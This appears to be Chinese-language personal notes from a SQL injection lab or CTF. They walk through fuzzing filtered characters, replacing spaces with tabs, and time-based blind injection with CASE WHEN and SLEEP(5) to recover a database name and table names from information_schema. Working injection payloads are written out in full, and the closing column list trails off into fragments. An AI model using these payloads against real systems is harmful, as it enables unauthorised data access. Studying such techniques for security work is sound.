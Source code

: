 # sql
测试'闭合
1'_#
_处fuzz
![](vx_images/574765169606417.png)
被过滤,可以用substr from to,盲注,
或者是用tab代替空格过滤
![](vx_images/552023724905595.png)
测得列数为2

最终使用时间注入casewhen(下面之所以不测库,表的长度是因为,BP的intruder发送的包没有符合的字符的话是不会卡顿的,)
![](vx_images/481285153766480.png)
响应不准确,但就在这几个之中,可以将线程调为1,就几乎只有一个答案(fuzz建议为数字和字母一起)
![](vx_images/215286739521293.png)
测测有几个数据库
SELECT COUNT(*) FROM information_schema.schemata;






```
1'	or	case	when	length(database())=6	then	sleep(5)	else	0	end;#
```
数据库长度为6,响应时间为5
首字母:
```
1'	or	case	when	substr(database()from	1	for	1)='t'	then	sleep(5)	else	0	end;#
```
依次可得,数据库为:testdb

不测别的库,
直接测表
```
1'	or	case	when	substr((select	table_name	from	information_schema.tables	where	table_schema='testdb'	limit	1	offset	0)from	1	for	1)='§0§'	then	sleep(5)	else	0	end;#
```
testdb_check(之前测试错了,记得fuzz加上_,花了我很多时间操)

testdb库下:
testdb_check
user
:username
:password
:host
:user
:password
:select_priv
:insert_priv
:update_priv
:delete_priv
:reload_priv
:shutdown_priv
:procss_priv
:file_priv
:grant_priv
:refer
:index_priv
:alhow
:sup
:creat
:loc
:exec
:rep
:re  
:c
:s
:c
:alt
:c
offset 31:e
:t
:c
:d
:s
:s
:x509(?可疑)
:x5
:m
:m
:m
:m
:p
